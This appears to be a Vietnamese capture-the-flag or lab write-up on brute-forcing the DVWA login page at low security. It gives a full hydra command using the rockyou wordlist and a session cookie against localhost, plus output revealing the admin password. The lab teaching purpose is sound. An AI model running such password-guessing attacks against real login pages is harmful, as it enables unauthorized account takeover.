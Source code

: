 # Brute Force

Mục tiêu là tấn công một trang đăng nhập HTTP.

**Mức độ: Thấp.**

Chúng ta cần truyền vào form 2 trường thông tin là username và password.

![alt text](image.png)

Ta sẽ bắt gói tin http từ client thì có thông tin như sau:

![alt text](image-1.png)

Ta thấy có trường thông tin username và password được hiện thị rõ từ đó ta có thể dùng hydra để tấn công nhằm mục tiêu tìm được tài khoản chính xác.

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=rt5o26sooph0v8p5nuarofj346"
```

<details><summary markdown="span">Bấm để xem output : </summary>

```Shell
┌──(kali㉿kali)-[~]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost http-form-get '/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=cookie: security=low; PHPSESSID=r64e85mgv5hb2h4f06otns746d'

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-15 11:15:02
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get-form://localhost:80/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=rt5o26sooph0v8p5nuarofj346
[80][http-get-form] host: localhost  login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
```
</details>